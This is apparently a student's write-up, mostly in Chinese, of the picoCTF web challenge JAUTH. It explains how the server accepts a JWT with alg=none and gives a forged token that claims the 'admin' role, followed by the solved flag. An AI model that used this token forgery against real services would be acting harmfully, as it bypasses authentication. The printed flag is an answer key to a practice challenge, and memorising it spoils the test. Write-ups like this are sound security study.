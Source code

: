 ```yaml
---
title: PicoCTF - JAUTH
tags: [Web, PicoCTF, CTF]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - JAUTH

## Background
[NTUCNS - HW3 - JWT Authentication](https://hackmd.io/JO7xByQgQWK67eU0goHMeA?view#c)

## Exploit - JWR + None
其實這一題有一點奇怪，應該說之前在解CNS作業的驗證時，TA說目前應該是不行以Alg=None的形式進行驗證的設計，我以為是後端的框架都不支援了，但應該說是不建議這樣的做法，所以這一題比想像中簡單，我還以為要把公鑰找出來，再進行sign
1. 用類似jwt.io的網站([online tool](https://token.dev/))，但支援alg=none的編碼
Payload: `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg3NzY0MjM1MTAzLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQ7IHJ2OjEwOS4wKSBHZWNrby8yMDEwMDEwMSBGaXJlZm94LzExNC4wIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjg3NzY0MjM1fQ`
![](https://hackmd.io/_uploads/B1vcsALOn.png)


Flag: `picoCTF{succ3ss_@u7h3nt1c@710n_72bf8bd5}`

## Reference
[ picoCTF : JAUTH (Challenge 8) ](https://youtu.be/njsjTVcwGwY)